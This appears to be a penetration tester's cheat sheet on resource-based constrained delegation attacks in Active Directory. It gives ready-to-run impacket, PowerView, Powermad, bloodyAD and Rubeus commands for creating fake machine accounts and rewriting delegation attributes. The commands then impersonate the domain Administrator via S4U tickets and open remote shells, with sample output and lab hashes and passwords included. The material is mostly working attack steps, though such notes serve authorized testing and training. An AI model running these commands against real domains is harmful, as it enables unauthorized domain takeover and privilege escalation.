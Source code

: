 # Kerberos Delegation - Resource Based Constrained Delegation

Resource-based Constrained Delegation was introduced in Windows Server 2012.

> The user sends a Service Ticket (ST) to access the service ("Service A"), and if the service is allowed to delegate to another pre-defined service ("Service B"), then Service A can present to the authentication service the TGS that the user provided and obtain a ST for the user to Service B.  <https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html>

## HTB Method (Linux)
> Requirements:
  1. Access to a user or group that has enough privileges to modify the msds-allowedtoactonbehalfofotheridentity. Commonly GenericWrite/All, WriteProperty, or WriteDACL
  2. Control of another object that has an SPN

1. Add the fake machine
  ```bash
  impacket-addcomputer -computer-name 'FakeComputer' -computer-pass <password> -dc-ip <DC IP> <domain>/<controlled username>
  ```
2. Add the fake machine account to the target computers trust list. (Possible because we have GenericalAll)
  ```bash
  #old command
  # impacket-rbcd -dc-ip <DC IP> -t <Target Computer hostname> -f <fakemachine hostname> <domain>/<controlled username>:<controlled password>

  # This command has changed from the training material. New command is 
  impacket-rbcd -dc-ip <DC IP> -delegate-to "<Target Computer Hostname>" -delegate-from "<FakeMachine hostname>" -action write <domain>/<owned user>:<password>

  ```
3. Get the Target
  ```bash
  impacket-getST -spn <SPN> -impersonate <user to impersonate> -dc-ip <DC IP> <domain>/<fakemachinehostname>:<fakemachinepassword>
  ```
4. Export the ticket for use
  ```bash
  export KRB5CCNAME=<Ticket.ccache>
  ```
5. Test it out 
  ```bash
  impacket-psexec -k -no-pass <target computer>
  ```
## HTB Method (Windows)
> Requirements: 
  1. Access to a user or group that has enough privileges to modify the msds-allowedtoactonbehalfofotheridentity. Commonly GenericWrite/All, WriteProperty, or Write DACL 
  2. Control of another object that has an SPN

1. Search RBCD 
  ```powershell
  Import-Module ./powerview.ps1

  # Get all computers in the domain into a variable
  $computers = Get-DomainComputer

  # Get all users in the domain into a variable
  $users = Get-DomainUser

  # Define the required access rights in a variable
  $accessrights = "GenericWrite","GenericAll","WriteProperty","WriteDACL"

  # Loop though each computer in the domain
  foreach ($computer in $computers){
      # get the security Descriptor for the computer
      $acl = Get-DomainObjectACL -SamAccountName $computer.SamAccountName -ResolveGUIDs

      # Loop through each user in the domain
      foreach ($user in $users) {
          $hasAccess = $acl | ?{$_.SecurityIdentifier -eq $user.objectsid} | %{($_.ActiveDirectoryRights -match ($accessRights -join '|'))}

          if ($hasAccess) {
              Write-Output "$($user.SamAccountName) has the required access rights on $($computer.name)"
          }
      }
  }
  ```
2. RBCD Enumeration
  ```powershell
  .\SearchRBCD.ps1
  ```
3. Use PowerMad to create a fake computer
  ```powershell
  Import-Module .\Powermad.ps1
  New-MachineAccount -MachineAccount <FakeMachineName> -Password $(ConvertTo-SecureString "<password>" -AsPlainText -Force)
  ```
4. Modify the target computers
  ```powershell
  Import-Module .\Powerview.ps1
  $ComputerSid = Get-DomainComputer <FakeMachineName> -Properties objectsid | Select -Expand objectsid
  $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
  $SDBytes = New-Object byte[] ($SD.BinaryLength)
  $SD.GetBinaryForm($SDBytes, 0)
  $credentials = New-Object System.Management.Automation.PSCredential "INLANEFREIGHT\carole.holmes", (ConvertTo-SecureString "Y3t4n0th3rP4ssw0rd" -AsPlainText -Force)
  Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Credential $credentials -Verbose
  ```
5. Get Computer hashes with Rubeus
  ```powershell
  .\Rubeus.exe hash /password:Hackthebox123+! /user:HACKTHEBOX$ /domain:inlanefreight.local
  ```
6. s4u to Impersonate the Administrator
  ```powershell
  .\Rubeus.exe s4u /user:HACKTHEBOX$ /rc4:CF767C9A9C529361F108AA67BF1B3695 /impersonateuser:administrator /msdsspn:cifs/dc01.inlanefreight.local /ptt
  ```
  > Note: We can also use /altservice:host,RPCSS,wsman,http,ldap,krbtgt,winrm to include aditional services to our ticket request.
7. Connect to the target Machine 
  ```powershell
  ls \\dc01.inlanefreight.local\c$
  ```
8. Clean up 
  ```powershell
  Import-Module .\PowerView.ps1
  $credentials = New-Object System.Management.Automation.PSCredential "INLANEFREIGHT\carole.holmes", (ConvertTo-SecureString "Y3t4n0th3rP4ssw0rd" -AsPlainText -Force)
  Get-DomainComputer DC01 | Set-DomainObject -Clear msDS-AllowedToActOnBehalfOfOtherIdentity -Credential $credentials -Verbose
  ```

## RBCD from Linux when the MachineAccountQuota is Set to 0 
1. Obtain a TGT Using the NT hash
  ```bash
  pypykatz crypto nt '<password of compromised user'
  ```
  ```bash
  impacket-GetTGT <domain>/<username> -hashes :<hash from previous step> -dc-ip <DC IP>
  ```
2. Verify the ticket works by obtaining the session key
  ```bash
  impacket-describeticket <user.ccache> | grep 'Ticket Session Key'
  ```
3. Change the users password to allow the DC to decrypt the ticket
  ```bash
  impacket-changepassword <domain>/<username>@<DC IP> -hashes :<hash from previous steps> -newhash <session key hash>
  ```
4. Get the Service Ticket
  ```bash
  KRB5CCNAME=<user.ccache> impacket-getST -u2u -impersonate <User to impersonate> -spn <SPN> -no-pass <domain>/<controlled username> -dc-ip <DC IP>
  ```
5. Access the Machine
  ```bash
  KRB5CCNAME=<impersonated user.ccache> wmiexec.py <Compromised machine(DC)> -k -no-pass
  ```
## Swisskey Method 

1. Import **Powermad** and **Powerview**

    ```powershell
    PowerShell.exe -ExecutionPolicy Bypass
    Import-Module .\powermad.ps1
    Import-Module .\powerview.ps1
    ```

2. Get user SID

    ```powershell
    $AttackerSID = Get-DomainUser SvcJoinComputerToDom -Properties objectsid | Select -Expand objectsid
    $ACE = Get-DomainObjectACL dc01-ww2.factory.lan | ?{$_.SecurityIdentifier -match $AttackerSID}
    $ACE
    ConvertFrom-SID $ACE.SecurityIdentifier

    # alternative (Windows/Linux)
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 get writable --otype COMPUTER --detail | egrep -i 'distinguishedName|msds-allowedtoactonbehalfofotheridentity'
    ```

3. Abuse **MachineAccountQuota** to create a computer account and set an SPN for it

    ```powershell
    New-MachineAccount -MachineAccount swktest -Password $(ConvertTo-SecureString 'Weakest123*' -AsPlainText -Force)

    # alternative (Windows/Linux)
    bloodyAD -u user -p 'totoTOTOtoto1234*' -d crash.lab --host 10.100.10.5 add computer swktest 'Weakest123*'
    ```

4. Rewrite DC's **AllowedToActOnBehalfOfOtherIdentity** properties

    ```powershell
    $ComputerSid = Get-DomainComputer swktest -Properties objectsid | Select -Expand objectsid
    $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
    $SDBytes = New-Object byte[] ($SD.BinaryLength)
    $SD.GetBinaryForm($SDBytes, 0)
    Get-DomainComputer dc01-ww2.factory.lan | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
    $RawBytes = Get-DomainComputer dc01-ww2.factory.lan -Properties 'msds-allowedtoactonbehalfofotheridentity' | select -expand msds-allowedtoactonbehalfofotheridentity
    $Descriptor = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList $RawBytes, 0
    $Descriptor.DiscretionaryAcl

    # alternative (Windows/Linux)
    # use 'remove' instead of 'add' after exploit
    bloodyAD --host 10.1.0.4 -u user -p 'totoTOTOtoto1234*' -d crash.lab add rbcd 'dc01-ww2$' 'swktest$'
    ```

    ```ps1
    # alternative
    $SID_FROM_PREVIOUS_COMMAND = Get-DomainComputer MACHINE_ACCOUNT_NAME -Properties objectsid | Select -Expand objectsid
    $SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$SID_FROM_PREVIOUS_COMMAND)"; $SDBytes = New-Object byte[] ($SD.BinaryLength); $SD.GetBinaryForm($SDBytes, 0); Get-DomainComputer DC01 | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}

    # alternative
    StandIn_Net35.exe --computer dc01 --sid SID_FROM_PREVIOUS_COMMAND
    ```

5. Use Rubeus to get hash from password

    ```powershell
    Rubeus.exe hash /password:'Weakest123*' /user:swktest$  /domain:factory.lan
    [*] Input password             : Weakest123*
    [*] Input username             : swktest$
    [*] Input domain               : factory.lan
    [*] Salt                       : FACTORY.LANswktest
    [*]       rc4_hmac             : F8E064CA98539B735600714A1F1907DD
    [*]       aes128_cts_hmac_sha1 : D45DEADECB703CFE3774F2AA20DB9498
    [*]       aes256_cts_hmac_sha1 : 0129D24B2793DD66BAF3E979500D8B313444B4D3004DE676FA6AFEAC1AC5C347
    [*]       des_cbc_md5          : BA297CFD07E62A5E
    ```

6. Impersonate domain admin using our newly created machine account

    ```powershell
    .\Rubeus.exe s4u /user:swktest$ /rc4:F8E064CA98539B735600714A1F1907DD /impersonateuser:Administrator /msdsspn:cifs/dc01-ww2.factory.lan /ptt /altservice:cifs,http,host,rpcss,wsman,ldap
    .\Rubeus.exe s4u /user:swktest$ /aes256:0129D24B2793DD66BAF3E979500D8B313444B4D3004DE676FA6AFEAC1AC5C347 /impersonateuser:Administrator /msdsspn:cifs/dc01-ww2.factory.lan /ptt /altservice:cifs,http,host,rpcss,wsman,ldap

    [*] Impersonating user 'Administrator' to target SPN 'cifs/dc01-ww2.factory.lan'
    [*] Using domain controller: DC01-WW2.factory.lan (172.16.42.5)
    [*] Building S4U2proxy request for service: 'cifs/dc01-ww2.factory.lan'
    [*] Sending S4U2proxy request
    [+] S4U2proxy success!
    [*] base64(ticket.kirbi) for SPN 'cifs/dc01-ww2.factory.lan':

        doIGXDCCBligAwIBBaEDAgEWooIFXDCCBVhhggVUMIIFUKADAgEFoQ0bC0ZBQ1RPUlkuTEFOoicwJaAD
        AgECoR4wHBsEY2lmcxsUZGMwMS[...]PMIIFC6ADAgESoQMCAQOiggT9BIIE
        LmZhY3RvcnkubGFu

    [*] Action: Import Ticket
    [+] Ticket successfully imported!
    ```

## References

* [Wagging the Dog: Abusing Resource-Based Constrained Delegation to Attack Active Directory - 28 January 2019 - Elad Shami](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html)
* [A Case Study in Wagging the Dog: Computer Takeover - Will Schroeder - Feb 28, 2019](https://posts.specterops.io/a-case-study-in-wagging-the-dog-computer-takeover-2bcb7f94c783)
